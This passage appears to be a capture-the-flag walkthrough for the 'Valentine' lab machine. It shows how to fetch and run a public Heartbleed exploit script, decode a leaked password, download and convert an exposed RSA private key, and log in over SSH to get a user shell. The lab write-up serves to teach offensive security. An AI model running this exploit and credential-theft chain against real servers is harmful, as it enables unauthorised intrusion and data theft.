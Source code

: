 ```bash
git clone https://gist.github.com/eelsivart/10174134
```

To use the payload, we can run it in the following way:

```bash
python heartbleed.py -p PORT_NUMBER -n NUM_LOOPS IP_ADDRESS
```

We see multiple instances of the following request, which is what looks like someone trying to decode a string using the decode.php we found earlier:

![Untitled](Valentine%20951cc2e3a0a847249981b494aef933be/Untitled%2014.png)

If we extract and decode the base64 string and decode it, we seem to have obtain what is likely the password: "heartbleedbelievethehype"

To utilise the private key we found, we can use curl to save the file with the following command:

```bash
curl -o hype_key http://10.10.10.79/dev/hype_key
```

This gives us the file in hex, so we have to convert it into plaintext using the following command:

```bash
cat hype_key | xxd -r -p > hype_key2
```

As a rsa key file, we have to modify the permissions of the file using the following command:

```bash
chmod 400 hype_key2
```

# User Flag

From the naming convention, we can guess that that the username is hype.

Therefore, we can attempt to log into ssh with the following command:

```bash
ssh -i hype_key2 hype@10.10.10.79
```

When prompted for the password, we can simply enter the password we found above, and we can see that we have shell:

![Untitled](Valentine%20951cc2e3a0a847249981b494aef933be/Untitled%2015.png)